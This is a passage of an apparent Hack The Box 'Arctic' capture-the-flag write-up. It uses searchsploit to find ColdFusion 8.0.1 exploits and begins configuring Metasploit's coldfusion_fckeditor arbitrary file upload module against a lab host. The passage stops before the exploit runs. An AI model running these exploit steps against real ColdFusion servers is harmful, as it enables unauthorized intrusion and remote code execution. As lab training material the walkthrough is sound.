 We now know we are dealing with a ColdFusion based site, let's check searchsploit:

```text
root@kali:~/htb/machines/arctic# searchsploit coldfusion 8.0.1
---------------------------------------------------------- ----------------------------------------
 Exploit Title                                            |  Path
                                                          | (/usr/share/exploitdb/)
---------------------------------------------------------- ----------------------------------------
Adobe ColdFusion Server 8.0.1 - '/administrator/enter.cfm | exploits/cfm/webapps/33170.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_authent | exploits/cfm/webapps/33167.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_loginto | exploits/cfm/webapps/33169.txt
Adobe ColdFusion Server 8.0.1 - 'administrator/logviewer/ | exploits/cfm/webapps/33168.txt
ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Met | exploits/cfm/webapps/16788.rb
```

The bottom one looks good, with file upload and metasploit module it should be easy. 

## Gaining Access

Start msf and search:

```text
root@kali:~/htb/machines/arctic# msfconsole
msf5> search coldfusion

Matching Modules
================

   #  Name                                                           Disclosure Date  Rank       Check  Description
   -  ----                                                           ---------------  ----       -----  -----------
   7  exploit/windows/http/coldfusion_fckeditor                      2009-07-03       excellent  No     ColdFusion 8.0.1 Arbitrary File Upload and Execute
```

Let's use the fckeditor module and set options:

```text
msf5 > use exploit/windows/http/coldfusion_fckeditor
msf5 exploit(windows/http/coldfusion_fckeditor) > options

Module options (exploit/windows/http/coldfusion_fckeditor):
   Name           Current Setting                                                             Required  Description
   ----           ---------------                                                             --------  -----------
   FCKEDITOR_DIR  /CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm  no        The path to upload.cfm
   Proxies                                                                                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                                                     yes       The target address range or CIDR identifier
   RPORT          80                                                                          yes       The target port (TCP)
   SSL            false                                                                       no        Negotiate SSL/TLS for outgoing connections
   VHOST                                                                                      no        HTTP server virtual host
Exploit target:
   Id  Name
   --  ----
   0   Universal Windows Target

msf5 exploit(windows/http/coldfusion_fckeditor) > set RHOST 10.10.10.11
RHOST => 10.10.10.11
msf5 exploit(windows/http/coldfusion_fckeditor) > set RPORT 8500
```
